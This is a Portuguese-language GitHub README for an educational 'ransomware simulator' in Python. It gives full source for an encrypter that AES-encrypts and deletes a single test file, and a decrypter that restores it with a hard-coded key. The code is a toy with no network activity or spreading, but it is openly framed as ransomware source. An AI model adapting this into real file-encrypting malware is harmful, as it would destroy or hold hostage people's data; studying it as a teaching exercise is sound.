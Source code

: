 🔒🔹 Simulador de Ransomware em Python:
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

📌🔹 Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

📌🔹 Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

🚀🔹 Tecnologias Utilizadas
Python 3
Kali Linux
**Biblioteca **pyaes

📥 Instalação e Execução
🔹 1. Clonar o repositório
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter
python encrypter.py
Isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter
python decrypter.py
Isso removerá o arquivo criptografado e restaurará teste.txt.

📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
